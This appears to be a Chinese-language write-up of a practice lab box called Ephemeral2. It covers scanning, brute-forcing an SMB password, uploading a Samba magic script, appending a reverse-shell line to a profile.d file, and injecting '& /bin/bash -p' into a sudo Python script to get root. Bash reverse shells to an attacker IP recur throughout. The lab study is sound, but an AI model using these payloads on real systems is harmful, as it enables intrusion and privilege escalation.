










## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Ephemeral2  
❯ nmap 192.168.56.107 -sV -A -p- 

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:cc:f1:53:7e:6b:31:2c:10:1e:6d:bc:01:b1:c3:a2 (RSA)
|   256 cd:19:04:a0:d1:8a:8b:3d:3e:17:ee:21:5d:cd:6e:49 (ECDSA)
|_  256 e5:6a:27:39:ed:a8:c9:03:46:f2:a5:8c:87:85:44:9e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:47:B9:0F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: EPHEMERAL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-03-07T16:30:22
|_  start_date: N/A
|_clock-skew: 7h59m57s
```

## Gobuster

```
[root@kali] /home/kali/Ephemeral2  
❯ gobuster dir -u http://192.168.56.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50                                                                                                ⏎
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.107
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.107/javascript/]
/server-status        (Status: 403) [Size: 279]
/foodservice          (Status: 301) [Size: 322] [--> http://192.168.56.107/foodservice/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

存在一个**/foodservice**页面


## Enumeration

```
[root@kali] /home/kali/Ephemeral2  
❯ enum4linux -a 192.168.56.107
```



有两个本地用户：**randy**和**ralph**

尝试爆破**randy**的密码，这里使用的是`msfconsole`





得到密码是**pogiako**

在这里我尝试使用crackmapexec smb 进行身份验证，但是却失败了，为什么？难道是两个工具的差异，还是说SMB版本的问题？  
暂时留在这里，因为我搜索不到相关信息。

## Own Randy

进入**SYSADMIN**目录，下载文件



查看**smb.conf**配置

```
[SYSADMIN]

path = /home/randy/SYSADMIN
valid users = randy
browsable = yes
writeable = yes
read only = no
magic script = smbscript.elf
guest ok = no
```

**magic script = smbscript.elf**  
这个选项指定了一个名为 `smbscript.elf` 的脚本文件，它将在访问共享时作为 "magic" 脚本运行。该脚本通常用于特定的自动化任务，如身份验证、权限控制等。

因此可以上传一个恶意脚本进行反弹**Shell**

```
[root@kali] /home/kali/Ephemeral2  
❯ cat smbscript.elf 
bash -c "bash -i >& /dev/tcp/192.168.56.104/6666 0>&1"
```

将自己的**id\_rsa.pub**写入到**/home/randy/.ssh/authorized\_keys**中，再**SSH**登录

在**/home/ralph**中发现**user.txt**但是无法读取！



## Own ralph

查看定时任务发现**ralph**每分钟会执行一次**ssh.sh**脚本



```
randy@ephemeral:/tmp$ cat /home/ralph/tools/ssh.sh 
#!/bin/bash

/usr/bin/ssh -o "StrictHostKeyChecking no" ralph@localhost -i /home/ralph/.ssh/id_rsa
```

而randy用户对以下文件具有可写权限



**`/etc/profile.d/` 目录**：该目录下的文件会在 **用户登录时** 被执行（包括 **SSH** 登录）。文件通常会配置一些环境变量、命令别名、终端外观等。

因此可以写入反弹**shell**的语句

```
randy@ephemeral:/usr/bin$ cat /etc/profile.d/bash_completion.sh 
# shellcheck shell=sh disable=SC1091,SC2039,SC2166
# Check for interactive bash and that we haven't already been sourced.
if [ "x${BASH_VERSION-}" != x -a "x${PS1-}" != x -a "x${BASH_COMPLETION_VERSINFO-}" = x ]; then

    # Check for recent enough version of bash.
    if [ "${BASH_VERSINFO[0]}" -gt 4 ] || \
       [ "${BASH_VERSINFO[0]}" -eq 4 -a "${BASH_VERSINFO[1]}" -ge 1 ]; then
        [ -r "${XDG_CONFIG_HOME:-$HOME/.config}/bash_completion" ] && \
            . "${XDG_CONFIG_HOME:-$HOME/.config}/bash_completion"
        if shopt -q progcomp && [ -r /usr/share/bash-completion/bash_completion ]; then
            # Source completion code.
            . /usr/share/bash-completion/bash_completion
        fi
    fi

fi
bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
```

得到反弹**shell**后同样写入公钥



## Root

查看特殊命令

```
ralph@ephemeral:~$ sudo -l
Matching Defaults entries for ralph on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ralph may run the following commands on ephemeral:
    (root) NOPASSWD: /usr/bin/python3 /home/ralph/getfile.py
```

暂时无法直接查看**getfile.py**的内容

似乎他是在**POST**传递一个东西



尝试在输入参数的时候添加其他命令

```
ralph@ephemeral:~$ sudo /usr/bin/python3 /home/ralph/getfile.py 
File path: any 
IP address: any & /bin/bash -p
```



成功进入到**root**！

## Summary

`User`：**enum4linux**扫描到存在**randy**用户，对其进行**SMB**爆破登录，读取smb配置文件可以上传一个魔术脚本，在登陆时会自动运行，因此得到**randy**的权限。查看定时任务得知，**ralph**每分钟会执行他的**ssh**脚本，同时**randy**可以修改**/etc/profile.d/**下的**ssh**登陆后的配置文件，从而得到**ralph**的权限。

`Root`：**ralph**有一个无法读取源码，似乎是传一个文件的脚本，通过对参数的注入，得到**root**权限。
